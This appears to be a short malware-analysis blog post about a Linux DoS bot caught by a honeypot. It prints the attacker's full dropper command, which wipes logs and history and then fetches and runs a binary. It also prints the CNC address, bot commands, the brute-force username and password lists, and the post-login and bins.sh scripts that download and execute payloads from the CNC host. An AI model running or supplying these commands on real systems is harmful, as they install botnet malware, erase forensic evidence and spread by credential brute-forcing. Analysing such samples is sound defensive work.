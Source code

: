 ```yaml
---
layout: post
title: "b08f9dc5784532be5b3f695f37c7781b"
date: 2018-09-06
categories:
    - blog
keywords: "re, malware, honeypot"
---
```


Initial file dropped:

```shell
clear ; unset ; rm -rf /var/run/utmp /var/log/wtmp /var/log/lastlog /var/log/messages /var/log/secure /var/log/xferlog /var/log/maillog /root/.bash_history ; unset HISTFILE ; unset HISTSAVE ; unset HISTLOG ; history -n ; unset WATCH ; export HISTFILE=/dev/null ; wget keedz.tk/client ; chmod +x client ; ./client ; rm -rf client ; rm -rf bash_history ; export HISTFILE=/dev/null ; rm -rf botz.sh ; exit
```

The `client` is a 64-bit ELF binary. The binary acts as a DoS bot which connect to their CNC (5.135.209.121) on port 23.

Available commands:

```shell
GETLOCALIP
SCANNER ON | OFF
HOLD
JUNK
HTTP
COMBO
KILLATTK
FUCKOFF
```

Below is the connection to the CNC:

```shell
Trying 5.135.209.121...
Connected to ip121.ip-5-135-209.eu.
Escape character is '^]'.
!* SCANNER ON
PING
PONG
```

If you try to connect for the 2nd time, this will be output.

```shell
Trying 5.135.209.121...
Connected to ip121.ip-5-135-209.eu.
Escape character is '^]'.
!* LOLNOGTFO
Connection closed by foreign host.
```

However, the CNC can be connected again after a few seconds.

The binary spread by bruteforcing the login for a random IP addresses.

List of usernames:

```shell
root
admin
user
login
guest
support
```
List of passwords:

```shell
root
toor
admin
user
guest
login
changeme
1234
12345
123456
default
password
support
```

Once logged in, it will execute the following commands:

```shell
cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://5.135.209.121/bins.sh; chmod 777 bins.sh; sh bins.sh; tftp 5.135.209.121 -c get tftp1.sh; chmod 777 tftp1.sh; sh tftp1.sh; tftp -r tftp2.sh -g 5.135.209.121; chmod 777 tftp2.sh; sh tftp2.sh; ftpget -v -u anonymous -p anonymous -P 23 5.135.209.121 ftp1.sh ftp1.sh; sh ftp1.sh; rm -rf bins.sh tftp1.sh tftp2.sh ftp1.sh; rm -rf *; exit
```

Inside bins.sh, more binary will be fetch

```shell
-e #!/bin/bash
-e cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://5.135.209.121/ntpd; chmod +x ntpd; ./ntpd; rm -rf ntpd
-e cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://5.135.209.121/sshd; chmod +x sshd; ./sshd; rm -rf sshd
-e cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://5.135.209.121/openssh; chmod +x openssh; ./openssh; rm -rf openssh
-e cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://5.135.209.121/bash; chmod +x bash; ./bash; rm -rf bash
-e cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://5.135.209.121/tftp; chmod +x tftp; ./tftp; rm -rf tftp
-e cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://5.135.209.121/wget; chmod +x wget; ./wget; rm -rf wget
-e cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://5.135.209.121/cron; chmod +x cron; ./cron; rm -rf cron
-e cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://5.135.209.121/ftp; chmod +x ftp; ./ftp; rm -rf ftp
-e cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://5.135.209.121/pftp; chmod +x pftp; ./pftp; rm -rf pftp
-e cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://5.135.209.121/sh; chmod +x sh; ./sh; rm -rf sh
-e cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://5.135.209.121/' '; chmod +x ' '; ./' '; rm -rf ' '
-e cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://5.135.209.121/apache2; chmod +x apache2; ./apache2; rm -rf apache2
-e cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://5.135.209.121/telnetd; chmod +x telnetd; ./telnetd; rm -rf telnetd
```
